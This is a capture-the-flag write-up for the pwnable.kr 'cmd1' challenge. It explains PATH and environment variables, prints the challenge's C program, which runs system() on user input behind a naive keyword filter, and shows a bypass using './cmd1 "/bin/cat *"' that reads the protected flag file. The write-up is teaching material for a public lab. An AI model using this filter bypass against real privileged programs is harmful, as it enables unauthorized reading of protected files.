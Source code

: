 # cmd1

## Description

cmd1 - 1 pt

> Mommy! what is PATH environment in Linux? <br> <br>
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Environment variables

An environment variable is a variable whose value is set outside the program, typically through functionality built into the operating system or microservice. They are part of the environment in which a process runs. Environment variables are a universal mechanism for conveying configuration information to Unix programs. 

#### PATH environment variable

The `PATH` environment variable is a list of directories that the shell searches in for executable files. It is used to find the executable file that is to be executed when a command is entered. 

### Exploit

When connecting to the server, we first check who are we:

```bash
$ id
uid=1025(cmd1) gid=1025(cmd1) groups=1025(cmd1)
```

Then, we check the avialable files:

```bash
$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      320 Mar 23  2018 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag
```

Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The program first sets the `PATH` environment variable to `/thankyouverymuch`. Then, it executes the command that is passed as an argument. However, the program checks if the command contains `flag`, `sh`, or `tmp` and if it does, it returns.

Our goal is to print the flag. Since the `PATH` environment variable was changed, we can't just call `cat` to print the flag - the shell will not be able to find it. Nevertheless, we can still use the `cat` command by using the absolute path to the executable file. 

Now that we can use the `cat` commnad, we need to figure out how to print the flag. We can't just `/bin/cat flag` because the program checks if the command contains `flag`. However, we can use the `cat` command to print *everything* inside the current directory:

```bash
$ /bin/cat *
```

Giving this command as an argument to the program will print the flag:

```bash
$ ./cmd1 "/bin/cat *"
...
mommy now I get what PATH environment is for :)
```
